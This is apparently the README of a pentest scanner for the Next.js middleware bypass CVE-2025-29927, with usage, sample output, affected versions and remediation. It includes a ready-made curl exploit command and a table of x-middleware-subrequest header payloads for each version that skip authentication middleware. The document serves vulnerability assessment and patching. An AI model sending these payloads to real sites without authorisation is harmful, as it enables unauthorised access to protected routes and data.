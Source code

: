 # 🔒 Next.js Middleware Bypass Scanner (CVE-2025-29927) 🛡️

![GitHub stars](https://img.shields.io/github/stars/pentestfunctions/nextjs-middleware?style=social)
![License](https://img.shields.io/badge/license-MIT-blue)
![Python Version](https://img.shields.io/badge/python-3.6%2B-blue)

## 🚨 About CVE-2025-29927

A critical vulnerability affecting Next.js applications using middleware that allows attackers to bypass middleware security controls by manipulating request headers.

This scanner efficiently detects vulnerable Next.js applications and provides exploitation guidance.

## 🌟 Features

- 🔍 Automatically detects Next.js applications and version hints
- 🛡️ Identifies protected routes that might be vulnerable
- 🚀 Multi-threaded scanning for faster results
- 📊 Rich visual reports (optional)
- 🧪 Multiple payload variations for different Next.js versions
- 📝 Detailed vulnerability reporting
- 💻 Works with both modern and legacy Next.js applications (v11.x - v15.1.x)
- 🔮 Advanced Next.js version detection
- 💉 Generates ready-to-use curl commands for exploitation proof-of-concept
- 🔄 Robust redirect chain analysis to detect successful bypasses

## 📋 Requirements

- Python 3.6+
- Required packages:
  ```
  requests
  colorama (for basic output)
  rich (optional, for enhanced output)
  ```

## 🔧 Installation

```bash
# Clone the repository
git clone https://github.com/pentestfunctions/nextjs-middleware.git
cd nextjs-middleware

# Install dependencies
pip install -r requirements.txt
```

## 🚀 Usage

Basic scan:
```bash
python CVE-2025-29927.py http://example.com
```

Advanced options:
```bash
# Verbose output
python CVE-2025-29927.py example.com -v

# Save results to file
python CVE-2025-29927.py example.com -o results.json

# Adjust thread count
python CVE-2025-29927.py example.com -t 10

# Simple output (no rich formatting)
python CVE-2025-29927.py example.com --no-rich
```

## 📊 Example Output

When a vulnerability is detected, the scanner provides detailed information:

```
=====================================
CVE-2025-29927 SCAN REPORT FOR https://example.com
=====================================

SUMMARY:
  Target: https://example.com
  Next.js Detected: Yes
  Version Detected: Yes (v13.4.12)
  Routes Tested: 5
  Vulnerable: Yes

VERSION DETECTION CLUES:
  - Next.js headers found: x-nextjs-render
  - Build ID: 1a2b3c4d5e6f7g8h9i0j
  - App Router indicators detected (likely Next.js 13+)

VULNERABILITY DETAILS:

  Route: /admin
  Vulnerable to:
    - Next.js v13.x-15.1.x (standard location)
    - Next.js v13.x+ (app directory)

EXPLOIT COMMAND:
  curl -i -H 'x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware' https://example.com/admin
```

![Scanner Output Example](https://raw.githubusercontent.com/pentestfunctions/nextjs-middleware/main/screenshots/scanner_output.png)

## 🧪 How It Works

1. 🔍 Detects if the target is using Next.js through various indicators in HTTP responses
2. 🔎 Identifies protected routes based on redirect behavior or authentication patterns
3. 🧰 Tests vulnerable header payloads against protected routes
4. 🔄 Compares response behavior with and without the vulnerability payloads
5. 📝 Reports findings with exploitation guidance and proof-of-concept commands

The scanner works by exploiting how Next.js middleware handles certain headers. By sending specifically crafted values in the `x-middleware-subrequest` header, attackers can bypass security checks implemented in middleware functions.

### 🎯 Tested Headers and Payloads

The scanner tests the following payloads targeting different Next.js versions and configurations:

| Header | Value | Target |
|--------|-------|--------|
| `x-middleware-subrequest` | `middleware:middleware:middleware:middleware:middleware` | Next.js v13.x-15.1.x (standard location) |
| `x-middleware-subrequest` | `pages/_middleware` | Next.js v11.1.4-12.1.x (pages router) |
| `x-middleware-subrequest` | `middleware` | Next.js v12.2.x (standard location) |
| `x-middleware-subrequest` | `src/middleware` | Next.js v12.2.x (src directory) |
| `x-middleware-subrequest` | `src/middleware:src/middleware:src/middleware:src/middleware:src/middleware` | Next.js v13.x-15.1.x (src directory) |
| `x-middleware-subrequest` | `app/middleware:app/middleware:app/middleware:app/middleware:app/middleware` | Next.js v13.x+ (app directory) |
| `x-middleware-subrequest` | `src/app/middleware:src/app/middleware:src/app/middleware:src/app/middleware:src/app/middleware` | Next.js v13.x+ (src/app directory) |

When a vulnerable application receives these headers, the middleware may be bypassed entirely, allowing access to protected routes and resources.

## 🔬 Affected Versions

- Next.js v11.1.4 - v12.1.x (pages router middleware)
- Next.js v12.2.x (using middleware.js/ts)
- Next.js v13.x - v15.1.x (using middleware.js/ts)

Patched versions:
- Next.js v15.2.3+
- Next.js v14.2.25+

## 🛡️ Remediation

1. Update to the patched version:
   - Next.js 15.x: Update to v15.2.3 or newer
   - Next.js 14.x: Update to v14.2.25 or newer

2. If updating is not immediately possible:
   - Block the `x-middleware-subrequest` header at your web server or proxy level

#### For Cloudflare:
Create a Firewall Rule to block requests containing the `x-middleware-subrequest` header.

## ⚠️ Disclaimer

This tool is intended for security professionals to assess their own systems or systems they have permission to test. Do not use against systems without explicit permission. The author is not responsible for any misuse.

---
Created with ❤️ by [pentestfunctions](https://github.com/pentestfunctions)
